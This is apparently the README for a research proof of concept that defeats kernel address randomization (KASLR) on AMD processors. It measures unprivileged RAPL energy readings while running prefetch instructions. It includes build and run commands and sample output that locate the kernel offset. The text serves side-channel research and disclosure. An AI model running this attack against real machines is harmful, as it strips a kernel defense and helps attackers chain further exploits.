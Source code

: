 # AMD RAPL KASLR Break

This PoC derandomizes KASLR using the unprivileged access to AMD's RAPL interfaces. The general concept is to distinguish between accesses of mapped and unmapped kernel addresses via differences in power consumption. We measure the power consumption and the execution time of `prefetch` instructions. 

While measuring the energy consumed of the core running the `prefetch` instructions, we notice an increased energy consumption where the page directory of the kernel is mapped:

![AMD EPYC 7401P](logs/amd_epyc_7401p.png)

In addition, there are several distinct higher spikes where the first one corresponds to the ``__do_softirq`` function of the kernel. Thus, our KASLR break will try to automatically detect this first spike. Note, that depending on the CPU the PoC is running on this said threshold might have to be adjusted manually.

#### Build instructions

To build the PoC, just run:

    make

#### Run the PoC

Our PoC consists of a simple application (kaslr). The application expects an *energyXX_input* file of one of the interfaces offered by the AMD Energy Linux driver:

    taskset -c 47 ./kaslr-power /sys/class/hwmon/hwmon4/energy24_input

##### Result evaluation

Example output of the PoC.

     0/16 0xffffffff7f000000 (7736) 
     1/16 0xffffffff7f200000 (7605) 
     2/16 0xffffffff7f400000 (7608) 
     3/16 0xffffffff7f600000 (7751) 
     4/16 0xffffffff7f800000 (7629) 
     5/16 0xffffffff7fa00000 (7589) 
     6/16 0xffffffff7fc00000 (7710) 
     7/16 0xffffffff7fe00000 (7566) 
     8/16 0xffffffff80000000 (9619) 
     9/16 0xffffffff80200000 (9635) 
    10/16 0xffffffff80400000 (9648) 
    11/16 0xffffffff80600000 (9376) 
    12/16 0xffffffff80800000 (9643) 
    13/16 0xffffffff80a00000 (9681) 
    14/16 0xffffffff80c00000 (9665) 
    15/16 0xffffffff80e00000 (9620) 
    16/16 0xffffffff81000000 (9489) 
    17/16 0xffffffff81200000 (9675) 
    18/16 0xffffffff81400000 (9698) 
    19/16 0xffffffff81600000 (9701) 
    20/16 0xffffffff81800000 (9634) 
    21/16 0xffffffff81a00000 (9474) 
    22/16 0xffffffff81c00000 (9584) 
    23/16 0xffffffff81e00000 (12501) 
    Offset @ 0xffffffff81e00000
